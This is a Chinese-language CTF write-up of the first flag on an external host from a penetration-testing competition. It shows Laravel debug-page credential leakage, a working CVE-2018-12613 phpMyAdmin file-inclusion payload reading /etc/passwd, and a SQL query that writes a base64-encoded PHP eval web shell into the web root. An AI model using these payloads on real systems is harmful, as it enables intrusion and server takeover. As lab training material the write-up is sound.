






第一次去线下比赛，还是第一次做渗透题，并且这几个月在学校也没啥时间学ctf啥的，好在比赛当天凌晨上手了一套渗透仿真题知道了大致流程，最终没有爆零，甚至白嫖了盒饭、汉堡王、rank6三等奖500大洋





但也仅止步于外网主机，然后内网的flag123基本就是靠ai拿下的，所以这里也只记录了外网主机flag1的writeup，在渗透这块还是得继续做题喵（

## flag1

一开始进入页面发现：

```text
[2025-12-01] 系统正在升级维护中...
[2025-12-01] 默认密码是6位数字
```

然后发现有个 phpmyadmin 的登陆页面，然后就以为是爆破，但是 100w 数字显然爆不完，更何况用户名还没确定，这条路显然不可取，而 dirsearch 也没扫出来有用的结果：

```text
(venv) resi@MacBook-Air dirsearch % python3 dirsearch.py -u http://10.12.147.127/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12295

Target: http://10.12.147.127/

[12:13:32] Scanning: 
[12:15:11] 301 -   312B - /css  ->  http://10.12.147.127/css/               
[12:15:21] 200 -     0B - /favicon.ico                                      
[12:15:31] 200 -    1KB - /index.php                                        
[12:15:35] 403 -   278B - /js/                                              
[12:15:35] 301 -   311B - /js  ->  http://10.12.147.127/js/                 
[12:15:55] 301 -   319B - /phpmyadmin  ->  http://10.12.147.127/phpmyadmin/ 
[12:15:56] 200 -    1KB - /phpmyadmin/README                                
[12:15:56] 200 -   20KB - /phpmyadmin/ChangeLog                             
[12:15:56] 200 -   15KB - /phpmyadmin/doc/html/index.html                   
[12:15:56] 200 -   14KB - /phpmyadmin/index.php                             
[12:15:56] 200 -   14KB - /phpmyadmin/                                      
[12:16:05] 200 -    24B - /robots.txt                                       
[12:16:07] 403 -   278B - /server-status/                                   
[12:16:07] 403 -   278B - /server-status
[12:16:30] 200 -    1KB - /web.config                                       

Task Completed
```

`ChangeLog` 显示了 phpmyadmin 的版本为 4.8.1，存在 CVE-2018-12613，但目前还进不去后台，`robots.txt` 也为空，然后收到提示，注意到其中几个重要的部分：

```text
提示1:入口不需要爆破，页面是一个框架，存在信息泄露漏洞

提示2:入口主页是一个php mvc框架，存在信息泄露漏洞

提示3:入口的框架名称laravel,存在debug信息泄露

提示6:入口的phpmyadmin存在文件包含漏洞

提示7:入口不止一个flag,入口不存在内核提权

提示8:入口文件包含漏洞编号:CVE-2018-12613
```

提示1、6、8验证了前面的想法，注意到提示2、3，刚好之前 burpsuite 抓包也发现了 cookie 中存在 `laravel_session`，于是从 laravel 框架的 debug 信息泄露着手

```bash
curl -s "http://10.12.147.127/abcdefg123" | head -50
```

先尝试访问不存在的路由让 Laravel 报错，得到标准的 404 错误页面，`Not Found` ，未暴露任何信息

```bash
curl -s -X PUT http://10.12.147.127/ -o whoops.html
```

再尝试用错误的 HTTP 方法访问，得到了 whoops 调试页，成功泄露关键信息，拿到 whoops 完整页面，得到了账号密码分别为"`laravel`"和"`secret_db_pass_1234`"，成功登陆 phpmyadmin



于是继续按照前面的 CVE-2018-12613 思路开始写，尝试使用 payload：

```text
/phpmyadmin/index.php?target=db_sql.php%253f../../../../../../../../../etc/passwd
```

发现 `/etc/passwd` 被读取，说明文件包含漏洞存在，继续尝试

```sql
SELECT '<?php phpinfo()?>'; 
```

```text
/phpmyadmin/index.php?target=db_sql.php%253f../../../../../../../../../tmp/sess_xxxx
```



成功读到 `phpinfo`，于是尝试一句话木马

```sql
SELECT '<?php @eval($_POST["cmd"]); ?>'
```

但没有写入成功，发现 phpMyAdmin 会剥离 SQL 查询中的 标签，无法通过 session 注入 PHP 代码，于是尝试 base64 编码后写文件，根据 写出如下 payload

```sql
SELECT "<?=`echo PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7ID8+|base64 -d>/var/www/html/laravel/public/z.php`;?>" as o
```

蚁剑连接，成功 getshell：



